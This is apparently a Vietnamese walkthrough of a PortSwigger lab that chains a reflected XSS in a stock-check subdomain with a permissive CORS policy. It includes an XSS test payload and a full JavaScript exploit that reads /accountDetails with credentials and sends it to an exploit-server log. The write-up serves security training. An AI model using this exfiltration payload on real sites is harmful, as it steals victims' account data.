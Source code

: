 - Trong trang chủ các sản phẩm của web shop, chọn một sản phẩm bất kỳ và chọn _Check stock_, ta có thể thấy nó được load sử dụng một HTTP URL trên một subdomain của domain chính web shop:

  <img width="1919" height="936" alt="image" src="https://github.com/user-attachments/assets/beeb2b45-b291-4b3e-ae7f-e476b050dc69" />

- Trong Burp, kiểm tra request _Check stock_, ta nhận thấy có hai param được truyền vào là _prroductId_ và _storeId_

- Thực hiện, chuyển request vào trong Burp Repeater và sửa giá trị của param _productId_ là payload XSS như sau:

  ```html
  <script>alert(1)</script>
  ```

  Sau đó gửi request và kiểm tra response của server, ta thấy payload được reflect lại trong response như sau:

  <img width="1919" height="825" alt="Screenshot 2025-09-17 155311" src="https://github.com/user-attachments/assets/a82161ef-8271-4054-b070-8512823caa74" />

  Thực hiện copy URL response, sau đó paste lên trên trình duyệt, kết quả ta có thể thấy payload XSS đã được kích hoạt:

  <img width="1919" height="933" alt="Screenshot 2025-09-17 155507" src="https://github.com/user-attachments/assets/7388674e-ec18-4787-909a-79b8b17be1dd" />

  &rarr; param _productId_ trong request _Check stock_ có lỗ hổng XSS.

  &rarr; Ta cần lợi dụng lỗ hổng XSS này trên subdomain ```http://stock.main_domain....``` để khai thác lỗ hổng CORS.

- Trong exploit server, tại file /exploit ở phần body ta tạo một payload HTML như sau (do trong phạm bị bài lab ta không thể tạo một cuộc tấn công MITM tới nạn nhân):

  ```html
  <script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?
        productId=<script>
            var req = new XMLHttpRequest(); 
            req.onload = reqListener; 
            req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); 
            req.withCredentials = true;
            req.send();
            function reqListener() {
                location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+this.responseText;
            };
        %3c/script>
        &storeId=1"
  </script>
  ```

  Khi gửi đường dẫn độc hại này cho victim là admin, admin thực click vào đường dẫn, sẽ tự động redirect bằng ```document.location``` tới subdomain         ```http://stock.0a1100390460657a80ed0381006200b6.web-security-academy.net```, nơi chứa lỗ hổng XSS tại param ```productId```.

  Ta tạo một mã JS độc hại tương tự như hai bài lab trên trong param ```productId```, lúc này trình duyệt sẽ tạo một HTTP request từ subdomain chứa lỗ      hổng XSS tới domain chính tại endpoint /accountDetails đang có CORS lỏng lẻo.
